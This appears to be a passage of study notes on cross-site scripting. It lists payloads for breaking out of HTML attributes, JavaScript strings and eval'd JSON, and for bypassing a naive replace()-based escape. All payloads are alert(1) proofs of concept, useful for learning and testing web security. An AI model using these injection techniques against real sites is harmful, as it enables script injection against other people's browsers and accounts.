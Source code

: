 Let's say, the page insert an `src` attribute using the input supplied by the user.
We can break out the `src` attribute by injecting a payload like this:

		" onload="alert(1)"

## Escaping javascript strings (DOM-Based XSS)

- If we have an input is reflected inside a javascript code:
```
	<script>
		var searchTerms = 'VULNERABLE VALUE';
		document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
	</script>
```

- then we can try to escape javascript with a payload like this:

		</script><script>alert(1)</script>

		OR

		f\'+alert(1) \\
	
		OR

		f'+alert(1)+'

## Escaping javascript JSON ojbect

- Let's say an object is construct with `eval` function:

		Responde text:
		{"searchTerm":"\\"alert(1)\\","results":[]}

		Javascript command:
		eval('var searchResultsObj = ' + this.responseText);

- We can inject a payload like this:

		\"-alert(1)}\\

## Bypass javascript `replace` function as xss protection

- If we have a code like this:

	```
	function escapeHTML(html) {
		return html.replace('<', '&lt;').replace('>', '&gt;');
	}
	```

- Then we can bypass the protection by putting `<>` before the payload. The reason is that the `replace` functionn only replace the first occurence if the argument is a string.

	```
	<><img src=1 onerror=alert(1)>
	```
